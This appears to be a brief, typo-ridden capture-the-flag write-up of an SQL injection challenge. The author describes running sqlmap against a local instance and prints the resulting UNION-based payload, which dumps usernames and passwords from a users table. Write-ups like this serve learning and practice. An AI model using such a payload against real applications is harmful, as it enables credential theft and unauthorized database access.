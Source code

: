 Looking at the name of the challeneg we already know it's sqlijection challenege. So what i did was spwan a local stance of the we g the source code given. Then i used sqlmap against to obtain the payload used to dump the database.

Payload

```
-4113" UNION ALL SELECT CHAR(113,113,98,107,113)||JSON_GROUP_ARRAY(COALESCE(name,CHAR(32))||CHAR(97,113,101,111,111,109)||COALESCE(password,CHAR(32)))||CHAR(113,122,120,112,113) FROM users-- ZsWA
```

